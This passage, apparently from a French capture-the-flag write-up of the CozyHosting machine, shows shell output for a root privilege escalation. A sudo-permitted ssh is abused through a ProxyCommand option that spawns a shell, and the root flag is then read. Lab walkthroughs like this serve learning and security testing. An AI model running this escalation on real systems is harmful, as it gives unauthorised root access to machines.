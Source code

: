 ![Alt text](image-7.png)

```bash
## 1ère commande
## Ca n'a pas fonctionné car il demande le mot de passe root
josh@cozyhosting:~$ sudo /usr/bin/ssh localhost $SHELL --noprofile --norc
root@localhost password: 
Permission denied, please try again.
root@localhost password: 
Permission denied, please try again.
root@localhost password: 
root@localhost: Permission denied (publickey,password).

## 2ème commande
## Ca fonctionne !! On est root sans avoir besoin du mot de passe !
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ whoami
root
$ ls
user.txt  usr
$ cd /root
$ ls
root.txt
$ cat root.txt
9ab6.....ba3d5
```